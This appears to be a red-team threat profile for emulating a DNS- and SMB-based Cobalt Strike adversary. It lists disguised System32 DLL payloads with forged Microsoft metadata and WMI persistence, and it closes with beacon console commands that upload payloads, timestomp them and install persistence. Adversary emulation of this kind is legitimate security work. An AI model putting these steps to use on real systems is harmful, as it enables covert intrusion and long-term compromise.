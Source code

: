 ```yaml
---
title: "Threat Profile: CYBERSNAKE"
description: >
  CYBERSNAKE threat profile example
---
```


# Threat Profile (CYBERSNAKE)

:::tip
A modified version of this profile was used on an assumed breach engagement. This profile is provide as an example to show details that supported a real engagement. A key focus of this profile is the use of DNS for C2. 
:::

## Description

C2 threat inspired by the Snake Campaign & Cyber Espionage Toolkit uses DNS instead of HTTP for communications

>Reference: http://www.baesystems.com/en/cybersecurity/feature/the-snake-campaign

## Characteristics

 - C2 Backend: CobaltStrike
 - Port(s): 53, 445 (DNS, SMB)
 - C2 communication using DNS and SMB Traffic
 - Executes in browser only when browser is active
 - IP communication using DNS hostnames

Cobalt Strike HTTP Request Profile:

 - None

## System Modifications

### Files

#### SMB Payload

PATH: `C:\Windows\System32\KBDUS1.DLL`

Binary modified using a resource hacker to look similar to other Windows files 

 - File Description: United States Keyboard Layout Alternate
 - File Version: 6.1.7601.17514
 - Product Name: Microsoft(r) Windows(r) Operating System
 - Product Version: 6.1.7601.17514
 - Copyright: (c)Microsoft Corporation. All right reserved
 - Date Modified:  11/20/2010 4:29:11 PM

#### DNS Payload

PATH: `c:\windows\system32\wanAPI.dll`

Binary modified using a resource hacker to look similar to other Windows files

 - File Description: Mbnapi
 - File Version: 6.1.7600.16385
 - Product Name: Microsoft(r) Windows(r) Operating System
 - Product Version: 6.1.7600.16385
 - Copyright: (c)Microsoft Corporation. All right reserved
 - Date Modified: 07/13/2009 7:56:53 PM

## Registry
 
 - None

## WMI

 - SMB Beacon: WMI KBDMonitor Created containing start up code to launch a smb beacon at each reboot
 - DNS Beacon: WMI MSUpdate Created containing start up code to launch a dns beacon at each reboot

-----------------------------------------------------

## Deployment Steps

1. Create WMI script with file and path to payload
2. Build payloads using profile
3. Build 64 and 32 bit DLL files
4. Use a Resource Hacker utility to modify dll to match File Attributes
5. Deploy dll to target system
6. Verify time matches surrounding files (TimeStomp if needed)

## Persistence Steps (via CobaltStrike Beacon Console)

KBDUS1.dll (SMB Beacon)

```
cd c:\windows\temp
upload /data/PAYLOADS/fullstaged/64/KBDUS1.DLL
powershell-import /data/PAYLOADS/Set-FileTimeStamps.ps1
powershell Set-FileTimeStamps c:\windows\temp\KBDUS1.DLL "11/20/2010 4:29:11 PM"
shell move c:\windows\temp\KBDUS1.DLL c:\windows\system32
powershell-import /data/PAYLOADS/wmi_persistence_kbdus1.ps1
powershell Invoke-WMI-Persistence
```

wanAPI.dll (DNS Beacon)

```
cd c:\windows\temp
upload /data/PAYLOADS/staged/wanAPI.dll
powershell-import /data/PAYLOADS/Set-FileTimeStamps.ps1
powershell Set-FileTimeStamps c:\windows\temp\wanAPI.dll "07/13/2009 7:56:53 PM"
shell move c:\windows\temp\wanAPI.dll c:\windows\system32
powershell-import /data/PAYLOADS/wmi_persistence_wanapi.ps1
powershell Invoke-WMI-Persistence
```